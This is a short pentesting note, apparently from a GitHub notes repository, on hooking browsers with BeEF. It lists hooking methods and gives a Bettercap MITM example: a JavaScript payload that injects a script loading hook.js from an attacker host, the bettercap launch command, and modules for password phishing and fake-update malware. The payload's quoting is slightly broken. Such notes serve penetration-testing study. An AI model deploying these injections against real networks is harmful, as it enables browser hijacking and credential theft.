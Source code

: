 # BeEF (Browser Exploitation Framework)

> https://beefproject.com, it comes installed with Kali Linux.

BeEF is a penetration testing tool that focuses on web browser by using client-side attacks vectors.

Targets need to be hooked (once they load a hook url) by:

* DNS spoof requests to a page containing the hook.
* Inject hook in browsed pages (MITM).
* XSS eploit.
* Social engineering the target to open a hook page (i.e, host website with Apache).
* Etc...

## MITM Bettercap injection example

We will use `hstshijack.cap` with a custom payload. Let's name our payload `inject_beef.js`:

```
const imported = document.createElement('script');
imported.src = 'http://<IP>:3000/hook.js`; // replace with your BeEF hook url
document.head.appendChild(imported);
```

And add to the caplet in `set hstshijack.payloads` value.

Then start bettercap...

```
bettercap -iface <CONNECTED_INTERFACE> -caplet /root/spoof.cap
```

## Social Engineering Attacks

There's a whole section for _Social Engineering_ with interesting tools such as:

* Extensions for dropping HTTPS
* Pretty Theft (authentication dialogs for requesting passwords)
* Fake Update Notification Bar (send hosted malicious file)